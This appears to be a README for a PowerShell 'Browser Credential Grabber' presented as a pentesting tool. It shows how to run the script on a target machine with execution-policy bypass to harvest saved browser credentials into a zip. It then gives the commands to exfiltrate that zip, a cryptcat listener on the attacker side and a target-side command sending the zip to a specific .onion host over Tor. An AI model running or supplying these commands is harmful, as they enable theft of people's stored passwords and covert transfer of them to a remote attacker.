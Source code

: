 # Browser Credential Grabber
This script can be utilized by pentesters to collect saved credentials data in browsers from the target machine. 

## Usage 
- Run the scipt in the target machine 
CMD : 
```
powershell -ExecutionPolicy Bypass -File grab.ps1
```
PowerShell :
```
.\grab.ps1
```
This will grab the credentials as a zip into the temp folder
- To exfiltrate the zip, use cryptcat and a tor server 
In the Attacker machine :
```
torify cryptcat -l -p 4444 > data.zip
```
In the Target machine :
```
cryptcat qd4axpacwmfx7zg7abdssxrhmikrg66gsgamxd6vr4ms65bdfmdzvjqq2yd.onion 4444 < $env:USERPROFILE\TEMP\data.zip
```
